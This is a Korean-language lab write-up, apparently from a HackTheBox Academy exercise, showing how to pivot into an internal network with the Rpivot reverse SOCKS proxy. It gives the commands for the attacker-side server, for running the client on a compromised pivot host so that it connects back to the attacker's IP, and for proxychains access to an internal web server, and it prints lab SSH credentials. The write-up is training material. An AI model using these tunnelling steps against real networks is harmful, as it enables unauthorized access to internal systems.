 ```yaml
---
title: "Web Server Pivoting with Rpivot"
date: 2025-09-30
layout: single
author_profile: true
toc: true
toc_label: "Rpivot Pivoting"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, socks, reverse]
header:
  teaser: /assets/network-screenshots/rpivot/pivot-network.png
---
```


**Rpivot**은 Python으로 작성된 **역방향(Reverse) SOCKS 프록시 도구**로, 내부망 호스트가 외부 서버로 연결을 맺고, 외부 서버 측에서 **SOCKS 프록시 포트**를 열어주어 공격자가 프록시를 통해 내부망에 접근할 수 있게 한다.

---

# 시나리오

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/rpivot-network.png)

Rpivot을 이용해 공격자가 외부에서 내부 웹 서버로 접근하는 구조이다.

내부망(`172.16.5.0/23`)에 존재하는 **웹 서버(`172.16.5.135`)**가 있고,  
공격자는 외부 네트워크(HTB Lab)에서 이 웹 서버를 직접 스캔하거나 브라우징을 할수있다.

---

# 설치

먼저 `rpivot` 저장소를 클론한다.

```bash
$ git clone https://github.com/klsecservices/rpivot.git 

Cloning into 'rpivot'...
remote: Enumerating objects: 37, done.
remote: Total 37 (delta 0), reused 0 (delta 0), pack-reused 37 (from 1)
Receiving objects: 100% (37/37), 51.20 KiB | 3.66 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

`rpivot`은 **Python 2.7 환경에서 동작**하므로 우선 Python 2.7을 설치해야 한다.

```bash
$ sudo apt-get install python2.7
```

에러가 발생할 경우, 이때는 `pyenv`를 사용하여 별도로 2.7 버전을 설치할 수 있다.

```bash
$ curl https://pyenv.run | bash
$ echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
$ echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
$ echo 'eval "$(pyenv init -)"' >> ~/.bashrc
$ source ~/.bashrc
$ pyenv install 2.7
$ pyenv shell 2.7
```

--- 

# 실습

## server.py 활성화

공격자 로컬 머신에서 `rpivot` 디렉토리로 이동 후 **SOCKS 프록시 서버(server.py)**를 실행한다.

```bash
$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

- **--proxy-port 9050** : 로컬에서 프록시 트래픽을 받을 포트 (SOCKS5)
- **--server-port 9999** : 클라이언트(피벗 호스트)가 접속할 포트
- **--server-ip 0.0.0.0** : 모든 인터페이스에서 연결 허용

이후, `scp` 명령어를 이용하여 문제에서 제공한 SSH 서버(`ubuntu:HTB_@cademy_stdnt!`) 로 전송을 하였다.

```bash
$ scp -r rpivot ubuntu@10.129.179.177:/home/ubuntu
```

전송 완료 후, 제공된 계정으로 피벗 호스트에 SSH 접속하였다.

```bash
$ ssh ubuntu@10.129.179.177
```

## client.py 활성화

`scp`로 전송한 **rpivot 디렉토리**로 이동한 뒤, `client.py` 스크립트를 실행한다.

```bash
$ python2.7 client.py --server-ip 10.10.15.86 --server-port 9999
```

로컬 호스트에서 **SOCKS 프록시 서버(server.py)** 를 실행해 두었던 터미널을 확인하면, 피벗 호스트가 성공적으로 접속한 로그가 출력된다.

```bash
New connection from host 10.129.179.177, source port 36508
```

이후, 내부망 웹 서버 `172.16.5.135`의 80 번 포트를 `proxychains`를 적용하여 확인하였다.

```bash
$ proxychains nc -vz 172.16.5.135 80

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.5.135:80  ...  OK
172.16.5.135 [172.16.5.135] 80 (http) open : Operation now in progress
```

출력 결과에서 `80 (http) open` 메시지를 통해 해당 포트가 열려 있음을 확인할 수 있다.

## proxychains 웹 사이트 연결 && Flag 획득

로컬 호스트에서 `proxychains`를 적용하여 내부망 웹 사이트에 접속하였다.

```bash
$ proxychains firefox-esr 172.16.5.135:80
```

정상적으로 내부망 웹 페이지 접속에 성공했고, 웹 페이지에 적혀 있는 플래그를 확인하여 획득하였다.

![Rpivot Pivot Diagram](/assets/network-screenshots/rpivot/flag.png)

이로써 **Rpivot** 사용법에 대한 실습을 마무리하였다.